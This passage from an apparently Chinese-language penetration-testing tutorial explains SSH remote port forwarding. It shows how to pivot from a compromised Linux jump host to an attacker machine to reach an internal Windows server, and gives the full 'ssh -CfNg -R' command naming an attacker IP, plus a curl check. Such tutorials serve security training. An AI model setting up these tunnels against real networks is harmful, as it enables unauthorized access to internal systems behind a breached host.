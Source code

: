-D：动态转发(SOCKS代理)

-P：指定SSH端口

### 5.2.3. SSH隧道技术远程转发

这里的远程转发主要是以Linux系统作为跳板，将跳板机上访问的IP地址及端口流量转发至攻击机上的某个端口，从而实现攻击机访问本地的端口能够跳转访问到目标主机端口上的内容。

#### 5.2.3.1. 环境准备

这里也攻击机也可以使用内网的IP，只要能与Linux跳板机通信即可。

```
攻击机:外网IP
Linux跳板机:192.168.10.20 
Windows服务器:192.168.10.150
```

#### 5.2.3.2. Linux跳板机执行命令

这里呢，就是像上面提到的需要使用到root权限，确实就是比较麻烦的了，除非你运气好获取到的root是弱口令，或者一些提权漏洞，不然确实比较难实现ssh隧道建立，至于后面需要输入的密码，就是你攻击机的密码。

```
ssh -CfNg -R 1010:192.168.10.150:80 root@124.71.XX.62

1010 ##是攻击机端口(自定义)
192.168.10.150:80 ##是需要访问的地址
root@124.71.200.62 ##是攻击机地址
```

![image-20230606135446406](assets/EiWntMZGl5dJ6jz.png)

#### 5.2.3.3. 验证效果

```
curl http:127.0.0.1:1010
```

![image-20230606135603396](assets/Kvi3ujLJwh1TAeQ.png)

